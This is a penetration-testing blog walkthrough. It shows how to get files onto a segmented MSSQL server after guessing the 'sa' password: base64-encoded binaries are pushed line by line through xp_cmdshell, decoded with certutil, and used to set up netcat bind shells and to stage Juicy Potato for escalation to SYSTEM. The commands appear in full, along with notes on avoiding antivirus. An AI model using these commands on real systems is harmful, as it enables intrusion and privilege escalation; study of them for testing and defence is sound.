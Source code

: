 ```yaml
---
layout: post
title: Exfiltrating files using MSSQL
excerpt_separator: <!--more-->
---
```


A scenario where we have to upload files to a server whose MSSQL credentials we know (so we have remote code execution) but the server is in other network. For that, we will transfer the base64-encoded file line by line.

<!--more-->


We have a jump server which allows us to access a Kali machine, used to scan a remote network. 

![img1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image1.png)

From Kali, we see there is a MSSQL server and after guessing the credentials of the user "sa", we have RCE there. 

![img2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image2.png)

However, the firewall rules make it impossible to download files from the jump server, the Kali machine or Internet:

![img3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image3.png)

We have a foothold in the netwotk but the firewalls configutaion and network segmentation make it a little difficult to continue. However, privilege escalation in this machine would be easy, as the account running the MSSQL server is a service account with the *SeImpersonatePrivilege* privilege and the OS is Windows Server 2016, being possible to escalate to SYSTEM with the Juicy Potato exploit:

![img4](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image4.png)

So, how could we get a reverse shell or upload the Juicy Potato binary? If we check blogs [like this one](https://book.hacktricks.xyz/exfiltration), they mention certutil to base64-encode and then decode the files:

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

So the idea is to encode a Windows binary, paste the content with mssqlclient.py and then decode it in the server, hopefully not triggering an antivirus, EDR or similar in the process. 

So first let's encode a Netcat binary:

```
certutil -encode nc.exe nc.txt
```

Generating a file like this one:

![img5](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image5.png)

But with the mssqlclient.py script I had problems with the length of the encoded payload. However, after pasting the payload in a Linux machine, the payload can be splitted and generate commands to upload the file line by line:

```
while read p; do echo "xp_cmdshell echo $p >> c:\\\\windows\\\\tasks\\\\nc.txt"; echo; done < /tmp/nc.txt > commands.txt
```

We get a file ("commands.txt") with one command per line of the encoded payload:

![img6](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/mssql-exfiltration/image6.png)

After copying all the content of the file and pasting it in the command line with a mssqlclient.py session open, we will generate a text file in c:\windows\tasks, which can be decoded then with:

```
xp_cmdshell certutil -decode c:\windows\tasks\nc.txt c:\windows\tasks\nc.exe
```

Luckily, after uploading this file I realized that there was not any antivirus in the machine and the Windows firewall was disabled, so it was as easy as uploading the file using bind shells insted of reverse shells. So in the compromised server the command was:

```
xp_cmdshell c:\windows\tasks\nc.exe -lvp 8888 > c:\windows\tasks\juicypotato.exe
```

And from the Kali machine:

```
nc -nv 10.100.10.10 8888 < juicypotato.exe
```

With those two binaries and being able to create bind shells, it is fairly easy to become SYSTEM, for example creating a second bind shell. And with that, we would have succeded!


